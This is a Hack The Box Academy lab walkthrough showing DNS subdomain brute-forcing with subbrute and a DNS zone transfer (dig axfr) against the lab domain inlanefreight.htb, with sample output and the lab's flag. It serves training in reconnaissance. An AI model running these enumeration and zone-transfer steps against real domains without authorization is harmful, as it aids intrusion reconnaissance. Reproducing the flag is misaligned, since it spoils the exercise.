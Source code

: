 
---

## 🎯 HTB Academy Lab Scenarios

### Scenario 1: DNS Zone Transfer Exploitation
**Task**: Find all DNS records for "inlanefreight.htb" domain and submit flag found as DNS record

#### HTB Academy Solution Workflow

##### Step 1: Setup Subbrute Tool
```bash
# Clone subbrute repository
git clone https://github.com/TheRook/subbrute.git && cd subbrute/

# Expected output
Cloning into 'subbrute'...
remote: Enumerating objects: 438, done.
remote: Total 438 (delta 0), reused 0 (delta 0), pack-reused 438
Receiving objects: 100% (438/438), 11.85 MiB | 20.67 MiB/s, done.
Resolving deltas: 100% (216/216), done.
```

##### Step 2: Configure DNS Resolver
```bash
# Add target DNS server IP to resolvers file
echo STMIP > resolvers.txt

# Replace STMIP with actual target IP (e.g., 10.129.137.154)
```

##### Step 3: Subdomain Enumeration
```bash
# Use subbrute with SecLists wordlist
python3 subbrute.py inlanefreight.htb -s /opt/useful/SecLists/Discovery/DNS/namelist.txt -r resolvers.txt

# Expected output
Warning: Fewer than 16 resolvers per process, consider adding more nameservers to resolvers.txt.
inlanefreight.htb
helpdesk.inlanefreight.htb
hr.inlanefreight.htb
ns.inlanefreight.htb
```

##### Step 4: Zone Transfer on Discovered Subdomains
```bash
# Perform zone transfer on hr subdomain and search for TXT records
dig axfr hr.inlanefreight.htb @10.129.137.154 | grep "TXT"

# Successful flag extraction
hr.inlanefreight.htb.	604800	IN	TXT	"HTB{LUIHNFAS2871SJK1259991}"
```
